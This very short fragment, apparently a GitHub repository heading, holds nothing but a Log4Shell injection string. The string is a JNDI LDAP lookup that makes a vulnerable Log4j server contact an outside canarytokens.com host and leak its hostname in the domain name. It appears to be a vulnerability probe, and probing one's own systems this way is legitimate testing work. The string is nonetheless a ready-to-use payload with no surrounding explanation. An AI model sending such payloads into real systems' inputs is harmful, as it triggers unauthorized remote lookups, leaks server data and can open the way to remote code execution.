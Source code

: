 # -jndi-ldap-x-hostName-.L4J.w1jx77639m0bvh2ah39qgrl0k.canarytokens.com-a-
${jndi:ldap://x${hostName}.L4J.w1jx77639m0bvh2ah39qgrl0k.canarytokens.com/a}
